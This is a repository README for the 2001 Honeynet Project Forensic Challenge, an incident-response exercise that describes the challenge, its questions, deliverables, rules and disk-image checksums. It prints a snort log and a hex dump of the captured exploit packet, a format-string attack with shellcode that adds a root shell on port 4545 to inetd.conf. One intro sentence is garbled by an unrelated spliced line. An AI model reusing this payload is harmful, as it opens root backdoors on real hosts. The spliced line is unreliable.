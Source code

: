 .. image:: images/page_titles_for_challenge.jpg

===================================
Honeynet Project Forensic Challenge
===================================

This repository mirrors and repackages the original data and analyses
from the Honeynet Project `Forensic Challenge`_.  The original web site
can be found at 
Python CLI for managing secrets (passwords, API keys, etc.) You can read
about the Honeynet Project Forensic Challenge in the article
`Tales from the CRYPT(3): Stories from the early Honeynet Project years (1999 to 2005)
<https://medium.com/@dave.dittrich/tales-from-the-crypt-3-ca8801b9f725>`_.

Directories and files
~~~~~~~~~~~~~~~~~~~~~

You can find BZ2 compressed partition images in the ``partition-images/``
directory.

Results from the reference analysis by David Dittrich for the Honeynet
Project and all 13 contestants are found in the ``results/`` directory.

The file ``timestamp.txt`` is the original timestamped file with
MD5 hashes of the original images, for "chain of custody" style
integrity validation.  As the new files are now compressed with
a different algorithm, the old ``.gz`` MD5 hashes are useless,
but the uncompressed files should still hash the same.

The Forensic Challenge
----------------------

The Honeynet Project's **Forensic Challenge** was launched on January 15, 2001.
This page links to all the information we've assembled about the Challenge.
This index will help you quickly get to what you want.

-  Introduction_
-  `The Challenge`_
-  `The Rules`_
-  `Partition images <partition-images/>`__
-  `Frequently Asked Questions about the Challenge <faq/>`__
-  `Results of the Challenge <results/>`__

.. _intro:

Introduction
~~~~~~~~~~~~

Every day, incident handlers across the globe are faced with compromised
systems, running some set of unknown programs, providing some kind of
unintended service to an intruder who has taken control of someone else's --
YOUR, or your client's, or customer's -- computers. To most, the response is a
matter of "get it back online ASAP and be done with it." This usually leads to
an inadequate and ineffective response, not even knowing what hit you, with a
high probability of repeated compromise.

On the law enforcement side, they are hampered by a flood of incidents and a
lack of good data. A victim trying to keep a system running or doing a
"quickie" job of cleanup usually means incidents are underreported and
inadequate handling of the evidence leads to no evidence, or tainted evidence.
There has to be a better way to meet the needs of incident handlers and system
administrators, as well as law enforcement, if Internet crime is going to be
managed and not run amok. One possible answer is effective forensic analysis
skills -- widespread knowledge of tools and techniques -- to preserve data,
analyze it, and produce meaningful reports and damage estimates to your
organization's management, to other incident response teams and system
administrators, and to law enforcement.

Enter the Honeynet Project. One of the primary goals of the Honeynet Project is
to find order in chaos by letting the attackers do their thing, and allowing
the defenders to learn from the experience and improve. The latest challenge,
inspired by the Honeynet Project's founder Lance Spitzner, is the Forensic
Challenge. Only this time, we're opening it up to anyone who wants to join in.

The Challenge
~~~~~~~~~~~~~

The Forensic Challenge is an effort to allow incident handlers around the world
to all look at the same data -- an image reproduction of the same compromised
system -- and to see who can dig the most out of that system and communicate
what they've found in a concise manner. This is a nonscientific study of tools,
techniques, and procedures applied to postcompromise incident handling. The
challenge is to have fun, to solve a common real world problem, and for
everyone to learn from the process. If what I've said already isn't enough to
get you interested, Foundstone is generously offering copies of their extremely
popular "Hacking Exposed" (Second Edition) book for the 20 best submissions.

To get you started, here are the basic facts about the compromise:

-  The system was running a default Red Hat Linux 6.2 Server
   installation.
-  The system's time zone was set to GMT-0600 (CST).
-  The following was noted and logged by the Project's IDS of
   choice, `snort <http://www.snort.org>`__.

::

   Nov 7 23:11:06 lisa snort[1260]:
   RPC Info Query: 216.216.74.2:963 -> 172.16.1.107:111

   Nov 7 23:11:31 lisa snort[1260]:
   spp_portscan: portscan status from 216.216.74.2: 2 connections across 1 hosts: TCP(2), UDP(0)

   Nov 7 23:11:31 lisa snort[1260]:
   IDS08 - TELNET - daemon-active: 172.16.1.101:23 -> 216.216.74.2:1209

   Nov 7 23:11:34 lisa snort[1260]:
   IDS08 - TELNET - daemon-active: 172.16.1.101:23 -> 216.216.74.2:1210

   Nov 7 23:11:47 lisa snort[1260]:
   spp_portscan: portscan status from 216.216.74.2: 2 connections across 2 hosts: TCP(2), UDP(0)

   Nov 7 23:11:51 lisa snort[1260]:
   IDS15 - RPC - portmap-request-status: 216.216.74.2:709 -> 172.16.1.107:111

   Nov 7 23:11:51 lisa snort[1260]:
   IDS362 - MISC - Shellcode X86 NOPS-UDP: 216.216.74.2:710 -> 172.16.1.107:871

::

   11/07-23:11:50.870124 216.216.74.2:710 -> 172.16.1.107:871
   UDP TTL:42 TOS:0x0 ID:16143
   Len: 456
   3E D1 BA B6 00 00 00 00 00 00 00 02 00 01 86 B8  >...............
   00 00 00 01 00 00 00 02 00 00 00 00 00 00 00 00  ................
   00 00 00 00 00 00 00 00 00 00 01 67 04 F7 FF BF  ...........g....
   04 F7 FF BF 05 F7 FF BF 05 F7 FF BF 06 F7 FF BF  ................
   06 F7 FF BF 07 F7 FF BF 07 F7 FF BF 25 30 38 78  ............%08x
   20 25 30 38 78 20 25 30 38 78 20 25 30 38 78 20   %08x %08x %08x
   25 30 38 78 20 25 30 38 78 20 25 30 38 78 20 25  %08x %08x %08x %
   30 38 78 20 25 30 38 78 20 25 30 38 78 20 25 30  08x %08x %08x %0
   38 78 20 25 30 38 78 20 25 30 38 78 20 25 30 38  8x %08x %08x %08
   78 20 25 30 32 34 32 78 25 6E 25 30 35 35 78 25  x %0242x%n%055x%
   6E 25 30 31 32 78 25 6E 25 30 31 39 32 78 25 6E  n%012x%n%0192x%n
   90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90  ................
   90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90  ................
   90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90  ................
   90 90 EB 4B 5E 89 76 AC 83 EE 20 8D 5E 28 83 C6  ...K^.v... .^(..
   20 89 5E B0 83 EE 20 8D 5E 2E 83 C6 20 83 C3 20   .^... .^...  ..
   83 EB 23 89 5E B4 31 C0 83 EE 20 88 46 27 88 46  ..#.^.1... .F'.F
   2A 83 C6 20 88 46 AB 89 46 B8 B0 2B 2C 20 89 F3  *.. .F..F..+, ..
   8D 4E AC 8D 56 B8 CD 80 31 DB 89 D8 40 CD 80 E8  .N..V...1...@...
   B0 FF FF FF 2F 62 69 6E 2F 73 68 20 2D 63 20 65  ..../bin/sh -c e
   63 68 6F 20 34 35 34 35 20 73 74 72 65 61 6D 20  cho 4545 stream
   74 63 70 20 6E 6F 77 61 69 74 20 72 6F 6F 74 20  tcp nowait root
   2F 62 69 6E 2F 73 68 20 73 68 20 2D 69 20 3E 3E  /bin/sh sh -i >>
   20 2F 65 74 63 2F 69 6E 65 74 64 2E 63 6F 6E 66   /etc/inetd.conf
   3B 6B 69 6C 6C 61 6C 6C 20 2D 48 55 50 20 69 6E  ;killall -HUP in
   65 74 64 00 00 00 00 09 6C 6F 63 61 6C 68 6F 73  etd.....localhos
   74 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  t...............
   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................

A bit-image copy of the active partitions was obtained, as detailed here:

::

   /dev/hda8       /
   /dev/hda1       /boot
   /dev/hda6       /home
   /dev/hda5       /usr
   /dev/hda7       /var
   /dev/hda9       swap

MD5 Checksums (both uncompressed and GNU gzip compressed):

::

   a1dd64dea2ed889e61f19bab154673ab  honeypot.hda1.dd
   c1e1b0dc502173ff5609244e3ce8646b  honeypot.hda5.dd
   4a20a173a82eb76546a7806ebf8a78a6  honeypot.hda6.dd
   1b672df23d3af577975809ad4f08c49d  honeypot.hda7.dd
   8f244a87b8d38d06603396810a91c43b  honeypot.hda8.dd
   b763a14d2c724e23ebb5354a27624f5f  honeypot.hda9.dd

   f8e5cdb6f1109035807af1e141edd76d  honeypot.hda1.dd.gz
   6ef29886be0d9140ff325fe463fce301  honeypot.hda5.dd.gz
   8eb98a676dbffad563896a9b1e99a95f  honeypot.hda6.dd.gz
   be215f3e8c2602695229d4c7810b9798  honeypot.hda7.dd.gz
   b4ff10d5fd1b889a6237fa9c2979ce77  honeypot.hda8.dd.gz
   9eed26448c881b53325a597eed8685ea  honeypot.hda9.dd.gz

Please be aware that these are new images. This is **not** a system that the
Honeynet Project has previously written about or discussed publically. (I.e.,
you won't get any hints from previous Honeynet papers.) The images were edited
to anonymize the system. Only the hostname was modified. Everyone is using the
same data, so any anomalies caused by this editing will be identical.

The image files can be mounted on Linux systems using the loopback interface
like this:

::

    # mkdir /t
    # mount -o ro,loop,nodev,noexec honeypot.hda8.dd /t
    # mount -o ro,loop,nodev,noexec honeypot.hda1.dd /t/boot
    [ etc... ]

Its now your job -- should you choose to accept it! -- to figure out the Who,
What, Where, When, How, and maybe even the Why of this compromise. We don't
expect that everyone undertaking the challenge can or will address all of the
following items, but the list below of questions and deliverables is provided
as a guideline for what to produce and what to focus on:

#. Identify the intrusion method, its date, and time. (Assume the clock on
   the IDS was synchronized with an NTP reference time source.)

#. Identify as much as possible about the intruder(s).

#. List all the files that were added/modified by the intruder.  Provide
   an analysis of these programs (including decompilation or disassembly
   where necessary to determine their function and role in the incident.)

#. Was there a sniffer or password harvesting program installed?
   If so, where and what files are associated with it?

#. Was there a "rootkit" or other post-concealment trojan horse programs
   installed on the system? If so, what operating system programs were
   replaced and how could you get around them? Hint: If you don't know
   what a "rootkit" is, read this:
   `http://staff.washington.edu/dittrich/misc/faqs/rootkits.faq
   <https://staff.washington.edu/dittrich/misc/faqs/rootkits.faq>`__

#. What is publicly known about the source of any programs found on the
   system? (e.g., their authors, where source code can be found, what
   exploits or advisories exist about them, etc.)

#. Build a time line of events and provide a detailed analysis of activity
   on the system, noting sources of supporting or confirming evidence
   (elsewhere on the system or compared with a known "clean" system of
   similar configuration.)

#. Provide a report suitable for management or news media (general aspects
   of the intrusion without specific identifying data).

#. Provide an advisory for use within the home organization (a fictitious
   university, "honeyp.edu", in this case, where I hold an honorary Doctorate,
   by the way) to explain the key aspects of the vulnerability exploited,
   how to detect and defend against this vulnerability, and how to
   determine whether or not other systems were similarly compromised.

#. Produce a cost-estimate for this incident using the following guidelines
   and method: 

   `http://staff.washington.edu/dittrich/misc/faqs/incidentcosts.faq
   <https://staff.washington.edu/dittrich/misc/faqs/incidentcosts.faq>`__

   To simplify and to normalize the results, assume that your annual salary is
   $70,000 and that there are no user-related costs. (If you work as a team,
   break out hours by person, but all members should use the same annual
   salary. Please also include a brief description of each investigator's
   number of years of experience in the fields of system administration,
   programming, and security, just to help us compare the number of hours spent
   with other entrants).

To summarize (and standardize) the deliverables, please produce the following:

::

      File                   Contents
      -----------------------------------------------------------------------
      index.txt              Index of files/directories submitted (including
                             any not listed below.)

      timestamp.txt          Timestamp of MD5 checksums of all files listed
                             and submitted (dating when produced -- see
                             deadline information below.)

      costs.txt              Incident cost-estimate.

      evidence.txt           Time line and detailed (technical) analysis. (Use
                             an Appendix, and/or mark answers to questions
                             above with "[Q1]", etc.)

      summary.txt            Management and media (non-technical) summary.

      advisory.txt           Advisory for consumption by other system
                             administrators and incident handlers within your
                             organization.

      files.tar              Any other files produced during analysis and/or
                             excerpts (e.g., strings output or dissassembly
                             listings) from files on the compromised file
                             system, which are referenced in the previous files.

The Rules
~~~~~~~~~

-  You are free to use any tools or techniques that you choose, provided that
   the judges are able to readily interpret your results and duplicate or verify
   their accuracy using publicly available means (i.e., don't expect us all to
   have a copy of your favorite "Law Enforcement Only" or multi-hundred dollar
   commercial Windows-only tool). A good publicly available free
   forensic toolkit is `TASK <https://www.sleuthkit.org>`__ (made up of
   `Autopsy <https://www.sleuthkit.org/autopsy/download.php>`__ and
   `The Sleuth Kit <https://www.sleuthkit.org/sleuthkit/download.php>`__.
   These tools build on Dan Farmer and Wietse Venema's original `The
   Coroner's Toolkit (TCT)
   <http://www.porcupine.org/forensics/tct.html>`__. If you want
   examples of the use of TCT, or other tools/techniques, see the Forensics
   section of the following web page:

   `https://davedittrich.github.io/ <https://davedittrich.github.io/>`__

   No matter what tools/methods you choose, please make sure you explain them
   in your analysis and cite references to resources (e.g., RFCs, CERT or
   SANS "how to" documents) to help others learn by example. Don't forget:
   this is a Honeynet Project brainchild, so learning is what it's all about.
   And fun. It's all about learning and fun. Oh yeah, and security. Learning,
   fun, AND security. ;)

-  You may work as a team, but if your entry is selected as a Top 20, you'll
   have to fight over one copy of the book.

-  Deliver the results of the analysis in such a way that the judges can quickly
   and easily consume the information, and such that its authenticity, time of
   production, and integrity can be verified independently. (e.g., ISO 9660
   CD-ROM or ``.tar`` archive, with digital time stamps, and PGP signatures
   and/or MD5 checksums.) Please DO NOT SEND COPIES OF COMPLETE FILES FROM THE
   FILE SYSTEM. We already have a copy of the file system and its contents.
   Just note the path (e.g., "[See file /bin/foo]").

-  All submissions **MUST** be time stamped prior to 00:00 GMT on Monday,
   February 19, 2001 [**not** February 15 as the announcement email said], and
   delivery to the judges initiated later that same day. (This is to accommodate
   submissions on IS0 9660 format CD-ROM, which should be postmarked by this
   time. The digital time stamps and postmarks will be used to determine the
   20 "Hacking Exposed" book winners.) One free digital time stamping service
   you can use is `Stamper <http://www.itconsult.co.uk/stamper.htm>`__ .

-  The person who hacked the box is NOT eligible, nor are members of the
   Honeynet Project. Members of the companies employing Honeynet Project members
   are eligible (and encouraged!) to enter, but their entries (even if Top 20)
   will not receive copies of "Hacking Exposed." The books go to other entrants.

-  Entries must be written in English (UK and Aussie English accepted, but go
   light on the regional slang, please! I only have a copy of "*Best of Aussie
   Slang*," and the other judges don't live in Seattle.)

-  Only one entry per household, please. Must be sentient to enter. Sorry, no
   Ginsu Knives come with this offer!

Submissions will be judged by a panel of experts and winners selected and
announced on Monday, March 19, 2001. All decisions of the judges are final (no
recounts or legal challenges by teams of grossly overpaid lawyers will be
tolerated!).

After the winners are announced, all entries will be posted for the security
community to review. We hope that the community can better learn from and
improve from all the different techniques that different people and
organizations use.

Also, we wouldn't be the Honeynet Project if we didn't capture all of the
blackhat's keystrokes as he exploited, accessed, and modified the honeypot! We
will release the Honeypot Project's analysis of the hacked system, as well as
the blackhat's keystrokes, along with the results of the Challenge on March 19.

Good luck, and have fun!

Dave Dittrich

.. |spacer| image:: /images/spacer.gif
   :width: 200px
   :height: 100px
.. |Home| image:: /images/nav_00_home.gif
   :name: home
   :width: 129px
   :height: 28px
   :target: /index.html
.. |About the Project| image:: /images/nav_01_about.gif
   :name: about
   :width: 129px
   :height: 28px
   :target: /misc/project.html
.. |Challenges| image:: /images/nav_04_challenges.gif
   :name: challenges
   :width: 129px
   :height: 30px
   :target: /misc/chall.html
.. |Presentations| image:: /images/nav_05_presentations.gif
   :name: pres
   :width: 129px
   :height: 31px
   :target: /speaking/index.html
.. |Whitepapers| image:: /images/nav_06_whitepapers.gif
   :name: white
   :width: 129px
   :height: 30px
   :target: /papers/index.html
.. |Tools| image:: /images/nav_07_tools.gif
   :name: tools
   :width: 129px
   :height: 30px
   :target: /tools/index.html
.. |Our Book| image:: /images/nav_08_our_book.gif
   :name: book
   :width: 129px
   :height: 29px
   :target: /book/index.html
.. |Funding/Donations| image:: /images/nav_09_funding.gif
   :name: fund
   :width: 129px
   :height: 31px
   :target: /funds/index.html
.. |Status Reports| image:: /images/nav_status.gif
   :name: status
   :width: 129px
   :height: 31px
   :target: /status/index.html
.. |Mirrors| image:: /images/nav_10_mirrors.gif
   :name: mirrors
   :width: 129px
   :height: 28px
   :target: /misc/mirror.html
.. |spacer| image:: /images/spacer.gif
   :width: 19px
   :height: 5px
.. |spacer| image:: /images/spacer.gif
   :width: 5px
   :height: 50px
.. |The Forensic Challenge| image:: /images/page_titles_for_challenge.jpg
   :width: 350px
   :height: 36px
.. |spacer| image:: /images/spacer.gif
   :width: 1px
   :height: 3px
.. |Back to Top| image:: /images/back.gif
   :width: 82px
   :height: 20px
   :target: #top
Credits
---------

The original Honeynet Project `Forensic Challenge`_ web site
is http://old.honeynet.org/challenge/

.. _Forensic Challenge: http://old.honeynet.org/challenge/
